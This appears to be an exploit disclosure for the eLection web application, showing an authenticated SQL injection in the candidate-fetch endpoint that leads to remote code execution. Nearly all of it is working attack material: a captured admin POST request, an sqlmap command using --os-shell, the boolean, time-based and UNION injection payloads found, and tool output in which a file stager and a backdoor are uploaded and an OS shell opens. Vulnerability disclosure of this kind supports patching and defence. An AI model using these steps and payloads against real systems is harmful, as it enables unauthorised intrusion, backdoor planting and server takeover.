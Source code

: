 The eLection Web application is vulnerable to authenticated SQL Injection which leads to remote code execution:

Login to the admin portal and browse to the candidates section. Capture the request in BurpSuite and save it to file:

````
POST /election/admin/ajax/op_kandidat.php HTTP/1.1

Host: 10.22.6.110

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://10.22.6.110/election/admin/kandidat.php?_

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 17

Connection: close

Cookie: el_listing_panitia=5; el_mass_adding=false; el_listing_guru=5; el_listing_siswa=5; PHPSESSID=b4f0c3bbccd80e9d55fbe0269a29f96a; el_lang=en-us



aksi=fetch&id=256

````
Send the request to SQLMap with the following parameters:

````
sqlmap -r getcandidate --level=5 --risk=3 --os-shell -p id
````
SQLMap will find the injection:

````
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: aksi=fetch&id=256 AND 8584=8584

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: aksi=fetch&id=256 AND (SELECT 8551 FROM (SELECT(SLEEP(5)))nYfJ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: aksi=fetch&id=-9798 UNION ALL SELECT NULL,NULL,CONCAT(0x7170707171,0x676d755461434e486f49475051707357694861534e664f416f434269487042545a76454f5843584b,0x71717a7871),NULL,NULL-- dWMc
---
````
````
[09:39:07] [WARNING] unable to automatically parse any web server path
[09:39:07] [INFO] trying to upload the file stager on '/opt/lampp/htdocs/election/' via LIMIT 'LINES TERMINATED BY' method
[09:39:07] [INFO] the file stager has been successfully uploaded on '/opt/lampp/htdocs/election/' - http://10.22.6.110:80/election/tmpumlfm.php
[09:39:07] [INFO] the backdoor has been successfully uploaded on '/opt/lampp/htdocs/election/' - http://10.22.6.110:80/election/tmpbpfkq.php
[09:39:07] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
````
Due to the way the setup of the application requires you to change permissions on the directory of the web app, you should be able
to get a shell.

